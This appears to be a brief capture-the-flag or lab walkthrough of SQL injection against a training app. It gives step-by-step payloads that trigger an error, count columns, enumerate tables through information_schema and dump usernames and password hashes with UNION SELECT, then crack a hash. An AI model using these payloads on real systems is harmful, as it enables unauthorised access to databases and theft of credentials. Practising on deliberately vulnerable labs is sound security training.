 ## SQL injection Easy

0. Go to elements and change option value. Use Burp to intercept HTTP

1. Get  Error
`SELECT first_name, last_name FROM users WHERE user_id = '''`

2. Get the number of columns
`1' order by 2`

3. Get columns from user table
`' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name like 'user%'#`

4. Get id & pwd
`' UNION SELECT user, password FROM users#`

5. Crack the password
`hashid 5f4dcc3b5aa765d61d8327deb882cf99`
crackstation



